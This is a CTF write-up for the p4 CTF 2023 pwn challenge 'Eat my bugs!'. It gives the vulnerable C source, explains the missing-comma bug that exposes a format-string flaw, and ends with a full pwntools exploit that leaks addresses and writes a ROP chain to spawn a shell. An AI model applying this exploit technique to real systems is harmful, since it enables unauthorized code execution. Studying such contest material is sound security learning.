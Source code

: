 # p4 CTF 2023 `Eat my bugs! [pwn]` writeup

## Challenge

Which bug tastes the best?

There is only one way to find out!

`nc eat_my_bugs.zajebistyc.tf 8001`

We can get the source code, libc, and ld file.
But there is no binary file.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char nothing[] = "Nothing,";

char fruits[8][20] = 
   {"Apple,", "Banana,", "Orange,", "Strawberry,",
	"Watermelon,", "Tomato,", "Lime,", "Avocado,"};

char vegetables[8][20] = 
	{"Carrot,", "Cucumber,", "Corn,", "Zucchini,",
	"Potato,", "Asparagus,", "Broccoli,", "Cabbage,"};

char meats[8][20] = 
	{"Pork,", "Beef,", "Chicken,", "Turkey,"
	"Duck,", "Lamb,", "Goat,", "Seafood,"};
	
char drinks[8][20] = 
   {"Tea,", "Water,", "CocaCola,", "Sprite,",
	"Redbull,", "Coffee,", "Milk,", "Mojito,"};

char bugs[8][20] = 
   {"Locust,", "Cricket,", "Honeybee,", "Beetle,",
	"Ants,", "Cockroach,", "Fly Larvae,", "Grasshopper,"};

int elements;
char name[0x20];

char *get_food(int type, int idx){
	if(idx < 0 || idx > 7){
			return nothing;
	}
	switch(type) {
		case 0:
			return fruits[idx];
		case 1:
			return vegetables[idx];
		case 2:
			return meats[idx];
		case 3:
			return drinks[idx];
		case 4:
			return bugs[idx];
		default:
			return nothing;
	}
}

void init() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

void read_name() {
	printf("Tell me your name: ");
	int l = read(0, name, 0x20-1);
	name[l] = '\x00';
}

int read_int() {
	char tmp[0x20];
	memset(tmp, 0, 0x20);
	read(0, tmp, 0x20-1);
	return atoi(tmp);
}

void read_elements() {
	printf("How much elements on plate: ");
	int e = read_int();
	if(e < 2 || e > 5){
		printf("no no\n");
		exit(1);
	}
	elements = e;
}

void make_plate(){
	char plate[0x20];
	int plate_len = 0;
	
	for(int i=0;i<elements;i++){
			printf("Type of food: ");
			int type = read_int();
			printf("Idx: ");
			int idx = read_int();
			char *src = get_food(type, idx);
			int l = strlen(src);
			if(l > sizeof(plate) - plate_len) {
				printf("no no\n");
				exit(1);
			}
			memcpy(plate+plate_len, src, l);
			plate_len += l;
	}
	plate[plate_len-1]='\x00';
	
	printf("Good choice %s\n", name);
	printf("Here is your yummy plate:\n");
	printf(plate);
}

int main() {	
	init();
	for(int people=0;people<3;people++) {		
		read_name();
		read_elements();
		make_plate();
	}
}
```

## Solution

Did you notice the mistake in lines 16~18 of the source code?

```c
char meats[8][20] = 
	{"Pork,", "Beef,", "Chicken,", "Turkey,"
	"Duck,", "Lamb,", "Goat,", "Seafood,"};
```
Of course I did not notice...

If you do not notice this bug, you cannot exploit it.
I was informed after the contest that if you enable all warnings and compile it yourself, it will report this bug for you.

If you select `type` 2 with `idx` 7, the plate is not modified at all.
As a result, this program outputs the contents written in `read_elements()` by `printf(plate)`.

Format string attack is available.

Even without a binary, you can dynamically analyze from libc and ld files.
Since the buffer size is small, you start by modifying the local variable within `main()` to a negative number to increase the number of attempts.

## Exploit

```py
from pwn import *
import sys

libc = ELF("libc.so.6")

context.arch = 'amd64'
context.log_level = 'info'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

def connect(env='debug'):
    if env == 'debug':
        io = process(elf.path)
        gdb.attach(io, gdbscript='''
            b *main
        ''')
    elif env == 'local':
        io = remote("localhost", 4000, timeout=3)
    elif env == 'remote':
        io = remote("eat_my_bugs.zajebistyc.tf", 8001, timeout=3)
    else:
        log.error('Invalid environment')
        exit(0)
    return io

def read_name(name=b'cafe'):
    io.sendafter(b'name: ', name)

def read_elements(e):
    io.sendafter(b'plate: ', e)

def make_plate(cnt=2, food=[2, 2], idx=[7, 7]):
    assert len(food) == cnt and len(idx) == cnt, 'Invalid input!'
    for i in range(cnt):
        r = io.sendlineafter(b'food: ', str(food[i]).encode())
        r = io.sendlineafter(b'Idx: ', str(idx[i]).encode())

def get_plate():
    head = b'plate:\n'
    tail = b'Tell '
    io.recvuntil(head)
    return io.recvuntil(tail)[:-len(tail)]

def do_loop(e):
    read_name()
    read_elements(e)
    make_plate()
    return get_plate()

def create_payload(addr, ctx):
    p = b'2'
    p += b'%%%dc%%8$hn' % ((0x10000 + ctx - 1) % 0x10000)
    p = p.ljust(0x10, b'\x00')
    p += p64(addr)
    return p

libc_start_call_main_oft = 0x23a90
i_addr_oft = 0x104
ret_addr_oft = 0xf8

if __name__ == '__main__':
    io = connect(env='local')

    # libc and stack addr leak in the first loop
    p = b'2  %19$p  %20$p  %21$p'
    r = do_loop(p).split(b'  ')
    libc.address = int(r[1].decode(), 16) - libc_start_call_main_oft
    i_addr = int(r[2].decode(), 16) - i_addr_oft
    ret_addr = int(r[2].decode(), 16) - ret_addr_oft
    log.info(f'&i for loop: {hex(i_addr)}\nlibc addr: {hex(libc.address)}')

    ropchain = p64(next(libc.search(asm('pop rdi; ret'), executable=True)))
    ropchain += p64(next(libc.search(b'/bin/sh\x00')))
    ropchain += p64(next(libc.search(asm('ret'), executable=True)))
    ropchain += p64(libc.sym["system"])

    # increate the number of loop
    do_loop(create_payload(i_addr + 2, 0xffff))
    
    oft = 0
    while True:
        do_loop(create_payload(ret_addr + oft, u16(ropchain[oft:oft+2]) & 0xffff))
        oft += 2
        if oft == len(ropchain):
            break
    
    do_loop(create_payload(i_addr + 2, 0x0))

    io.interactive()
```